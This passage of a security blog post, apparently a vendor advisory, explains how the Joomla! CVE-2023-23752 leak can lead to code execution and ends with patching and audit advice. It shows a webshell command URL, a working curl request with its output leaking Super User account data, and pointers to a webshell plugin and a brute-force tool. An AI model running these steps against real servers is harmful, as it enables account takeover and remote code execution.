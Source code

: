 http://10.9.49.205/?cmd=whoami\`)\\n\\n!\[Joomla! Webshell in Template Editor\](/blog/joomla-for-rce/joomla-webshell.png){:width="100%"}\\n\\n2. Install a malicious plugin such as \[Joomla-webshell-plugin\](https://github.com/p0dalirius/Joomla-webshell-plugin).\\n\\nBoth are viable options. Both are achievable because the MySQL credential leak allows the attacker to take over a Super User account. That isn’t the only way though. CVE-2023-23752 provides a second method for chasing after a Super User account.\\n\\n## CVE-2023-23752 to Code Execution #2\\n\\nInstead of leaking the MySQL credentials, the attacker can leak the Joomla! user database using CVE-2023-23752:\\n\\n\`\`\`sh\\ncurl -v http://10.9.49.205/api/index.php/v1/users?public=true\\n\* Trying 10.9.49.205:80...\\n\* TCP\_NODELAY set\\n\* Connected to 10.9.49.205 (10.9.49.205) port 80 (#0)\\n> GET /api/index.php/v1/users?public=true HTTP/1.1\\n> Host: 10.9.49.205\\n> User-Agent: curl/7.68.0\\n> Accept: \*/\*\\n>\\n\* Mark bundle as not supporting multiuse\\n< HTTP/1.1 200 OK\\n< Date: Mon, 20 Mar 2023 16:11:38 GMT\\n< Server: Apache/2.4.41 (Ubuntu)\\n< x-frame-options: SAMEORIGIN\\n< referrer-policy: strict-origin-when-cross-origin\\n< cross-origin-opener-policy: same-origin\\n< X-Powered-By: JoomlaAPI/1.0\\n< Expires: Wed, 17 Aug 2005 00:00:00 GMT\\n< Last-Modified: Mon, 20 Mar 2023 16:11:38 GMT\\n< Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0\\n< Pragma: no-cache\\n< Content-Length: 418\\n< Content-Type: application/vnd.api+json; charset=utf-8\\n<\\n\* Connection #0 to host 10.9.49.205 left intact\\n{"links":{"self":"http:\\/\\/10.9.49.205\\/api\\/index.php\\/v1\\/users?public=true"},"data":\[{"type":"users","id":"552","attributes":{"id":552,"name":"jake","username":"albinolobster","email":"albinolobster@vulncheck.com","block":0,"sendEmail":1,"registerDate":"2023-03-17 15:07:45","lastvisitDate":"2023-03-20 15:35:58","lastResetTime":null,"resetCount":0,"group\_count":1,"group\_names":"Super Users"}}\],"meta":{"total-pages":1}\\n\`\`\`\\n\\nThe database output contains usernames, emails, and assigned group (e.g. \`Super Users\`). This should be enough for credential stuffing or \[brute forcing\](https://github.com/ajnik/joomla-bruteforce) to achieve Super User access. Some bad administrators might even reuse the MySQL password for the Super User account. Either way, this additional leak has the added benefit of not relying on MySQL being reachable. Once Super User access is achieved, the attacker can follow the previously discussed paths to code execution.\\n\\n\\n## Conclusion\\n\\nCVE-2023-23752 is an authentication bypass resulting in an information leak on Joomla! Servers. Although rated as a CVSSv3 5.3 (Medium severity) by \[NVD\](https://nvd.nist.gov/vuln/detail/CVE-2023-23752), this vulnerability could allow an attacker to achieve code execution under the right circumstances. That likely justifies the interest attackers have shown in this vulnerability.\\n\\nThe total number of vulnerable servers was never high and patching has occurred at a good rate. However, anyone using Joomla! Version 4 should probably consider rotating all passwords. Additionally, examining template files for webshells and auditing all installed plugins would be beneficial.\\n

#### [Source](https://vulncheck.com/blog/joomla-for-rce)

<br/>
---
